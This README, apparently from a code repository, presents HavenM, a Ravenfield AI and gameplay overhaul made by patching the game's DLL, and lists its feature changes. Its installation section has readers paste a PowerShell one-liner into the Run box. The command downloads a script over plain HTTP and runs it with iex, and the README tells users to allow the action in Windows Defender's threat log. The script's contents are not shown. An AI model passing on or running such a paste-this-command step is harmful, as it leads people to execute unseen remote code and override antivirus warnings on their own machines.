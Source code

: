# HavenM - AI and Gameplay Overhaul for Ravenfield

## What is HavenM?
HavenM is a game-changing AI and gameplay overhaul mod for *Ravenfield*, designed to enhance immersion, realism, and challenge. By modifying the game's DLL using *dnSpy*, this mod pushes AI behavior and game mechanics far beyond the vanilla experience.

## Why Modify the Game DLL with dnSpy?
Ravenfield's default AI often feels too predictable, lacking the tactical decision-making and combat awareness that could make battles more engaging. Over nearly two years of dedicated work, HavenM was created to introduce smarter, more reactive AI and refined game mechanics, offering a significantly improved experience.

## Key Features & Changes

### AI Improvements
- **Tactical Movement & Reactions**
  - AI soldiers go **prone under fire**, making them harder to hit.
  - AI no longer **auto-crouches** but instead jogs to objectives when not under fire, improving pacing and movement fluidity.
  - AI **halts vehicles to fire weapons**, with behavior influenced by skill level and weapon type.
  - AI **stops, aims, fires, and tracks targets** when using wire-guided missile weapons, greatly enhancing anti-vehicle effectiveness.
  - AI **exits vehicles when submerged** in water and leaves aircraft when stuck, preventing soft-lock situations.
  
- **Combat Behavior & Engagements**
  - AI **fires more aggressively**, reducing hesitation and making firefights more intense.
  - AI from **all skill levels can lean**.
  - AI **hides behind the cover when under fire**.
  - AI **provides suppressive fire** on known enemy positions.
  - AI **prioritizes high-threat targets** like mortar teams rather than engaging randomly.
  - AI **engages low-flying and slow-moving aircraft**, making landing helicopters and air support more vulnerable.
  - AI **randomizes weapon switching** based on target engagement effectiveness, preventing predictable behavior.
  - AI **switches between grenades, under-barrel grenade launchers, and melee weapons** when appropriate.
  - Vehicles with **low passenger counts halt more often to provide fire support** instead of recklessly rushing into battle.
  - **Airplanes perform better** in air-to-ground attacks, adjusting tactics based on weapon loadout.
  - AI **driving vehicles now reverse based on their actual reverse speed**, reducing vehicle-stuck issues (e.g., T-72 tank).
  - AI **loadouts are randomized**.
  - AI **no longer drops their target** in SpecOps mode or when within **40m of an enemy**.
  - AI **panic fires when an enemy is within 20m**, ignoring weapon effectiveness (works well with kamikaze vehicle mods).
  - AI **piloting helicopters slows down and stabilizes** when spotting an enemy while using wire-guided missiles, improving targeting accuracy.
  - AI **grouped near cover is now considered an infantry group**, allowing explosives to target them effectively.
  - AI driver will halt when it has low or no passenger and the gunner is having a target

### New Game Mechanics
- **Weapon Mounting System**
  - Inspired by *Rising Storm: Vietnam*, players can now mount weapons on surfaces for improved accuracy and stability.

- **Advanced Missile Targeting**
  - Missiles **predict target movement** instead of flying straight, making dogfights and anti-vehicle combat more challenging.
  - Flares **don't stop missile locks**, but they confuse missiles, causing them to veer off unpredictably instead of always missing.
  
- **Tank Track climb**
  - Tank and tracked vehicle will climb over everything its tread touched
  
- **Simple Penetration System**
  - High-damage weapons now have penetration mechanics:
    - **Bullets & explosives pass through cover** if they deal **over 100 damage**.
    - **Explosives ignore cover & explode** if their damage is over **900**.

## Overhauled SpecOps Game Mode
HavenM includes a **complete revamp** of the SpecOps mode, making it more dynamic and challenging:

- **Dynamic enemy spawns**, ensuring unpredictable encounters.
- **Customizable objectives & enemy count**, allowing for tailored difficulty (bot number controls AI per objective, respawn timer controls, objective count).
- AI **exits vehicles** when the player is nearby to engage in direct combat.
- AI **flanks and ambushes players** based on skill level.
  - **Normal & lower-skill bots** rush to the player's last known position.
  - **Veteran bots** hold back, providing fire support and ambushing players who move carelessly.
- **Increased enemy spawns during exfiltration**, making the escape phase more intense.
- AI **no longer needs a direct line of sight to fire flares**—they react when alerted instead.

# Installation 
Copy this command, Win+R to open "Run" windows, paste it, and press Enter.

It will create an Updater shortcut in Desktop.

**YOU MAY NEED TO ALLOW THIS ACTION ON YOUR [WINDOWS DENFENDER](windowsdefender://threat)’s Log FOR THE FIRST TIME!!!**
```batch
powershell -nop -c "$w=(New-Object System.Net.WebClient);$w.Encoding=[System.Text.Encoding]::UTF8;iex($w.DownloadString('http://ravenfieldcommunity.github.io/static/get_havenm-utf8.ps1'));Read-Host;"
```
